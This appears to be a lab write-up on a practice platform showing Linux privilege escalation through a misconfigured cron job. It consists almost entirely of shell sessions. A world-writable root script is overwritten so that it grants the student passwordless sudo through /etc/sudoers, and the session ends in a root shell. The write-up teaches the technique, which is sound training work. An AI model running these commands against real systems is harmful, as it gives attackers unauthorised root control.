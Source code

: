 # EXPLOITING MISCONFIGURED CRON JOBS

```sh
student@attackdefense:~$ whoami
student
student@attackdefense:~$ groups student
student : student
student@attackdefense:~$ crontab -l
no crontab for student
```

```sh
student@attackdefense:~$ ls -al
total 12
drwxr-xr-x 1 student student 4096 Sep 23  2018 .
drwxr-xr-x 1 root    root    4096 Sep 23  2018 ..
-rw------- 1 root    root      26 Sep 23  2018 message
student@attackdefense:~$ cat message
cat: message: Permission denied
```

```sh
student@attackdefense:~$ pwd
/home/student
student@attackdefense:~$ cd /
student@attackdefense:/$ grep -rnw /usr -e "/home/student/message"
/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```

```sh
student@attackdefense:/$ ls -al /tmp
total 12
drwxrwxrwt 1 root root 4096 Jan  4 06:04 .
drwxr-xr-x 1 root root 4096 Jan  4 05:51 ..
-rw-r--r-- 1 root root   26 Jan  4 06:04 message
student@attackdefense:/$ cat /tmp/message
Hey!! you are not root :(
```

<pre class="language-sh"><code class="lang-sh">student@attackdefense:/$ ls -al /usr/local/share/copy.sh
-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
student@attackdefense:/$ cat /usr/local/share/copy.sh
#! /bin/bash
cp /home/student/message /tmp/message
chmod 644 /tmp/message
<strong>student@attackdefense:/$ printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' >/usr/local/share/copy.sh
</strong></code></pre>

```sh
student@attackdefense:/$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /etc/init.d/cron
    (root) NOPASSWD: ALL
student@attackdefense:/$ whoami
student
student@attackdefense:/$ sudo su
root@attackdefense:/# whoami
root
```
